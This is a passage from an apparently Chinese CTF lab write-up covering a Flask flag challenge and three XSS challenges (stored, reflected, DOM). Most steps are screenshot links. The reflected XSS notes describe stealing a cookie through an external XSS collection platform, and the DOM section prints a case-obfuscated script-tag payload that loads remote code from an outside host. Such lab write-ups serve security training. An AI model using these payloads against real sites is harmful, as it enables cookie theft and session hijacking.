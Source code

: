   95. ​        return jsonify({'code':1,'msg':"你干啥???????"})
   96. @app.route('/flag',methods=['GET','POST'])
   97. def get_flag():
   98. ​    """
   99. ​    查看龙珠库存
   100. ​    """
   101. ​    \#如果有7颗龙珠就拿到flag~
   102. @app.route('/source',methods=['GET','POST'])
   103. def get_source():
   104. ​    """
   105. ​    查看源代码
   106. ​    """
   107. if __name__ == '__main__':
   108. ​    app.run(host='0.0.0.0',port=80,debug=False)
   ```

   

## 170.xss 存储型

![image-20241215212624318](D:\ctf wp\161-200.assets\image-20241215212624318.png)

![image-20241215212714587](D:\ctf wp\161-200.assets\image-20241215212714587.png)

![image-20241215213029643](D:\ctf wp\161-200.assets\image-20241215213029643.png)

![image-20241215212609548](D:\ctf wp\161-200.assets\image-20241215212609548.png)



## 171 xss  反射型

第一个框内注入后 复制url，把它复制到第二个框框发送，在我们的xss平台的项目中就会显示刚刚的数据包的信息，在cookie中发现了flag

![image-20241215222401170](D:\ctf wp\161-200.assets\image-20241215222401170.png)![image-20241215222452529](D:\ctf wp\161-200.assets\image-20241215222452529.png)



## 172.xss DOM反射

![image-20241215223041539](D:\ctf wp\161-200.assets\image-20241215223041539.png)

![image-20241215223058475](D:\ctf wp\161-200.assets\image-20241215223058475.png)

要构造一个闭合![image-20241215223835406](D:\ctf wp\161-200.assets\image-20241215223835406.png)

源码：
<script>
  $("#text")[0].innerHTML = 'CTFHub is very niubility';
</script>
传入，闭合处理后：

```javascript
 <script>
        $("#text")[0].innerHTML = '';
 </script>
<sCRiPt/SrC=//xs.pe/LIg>；
</script>
```

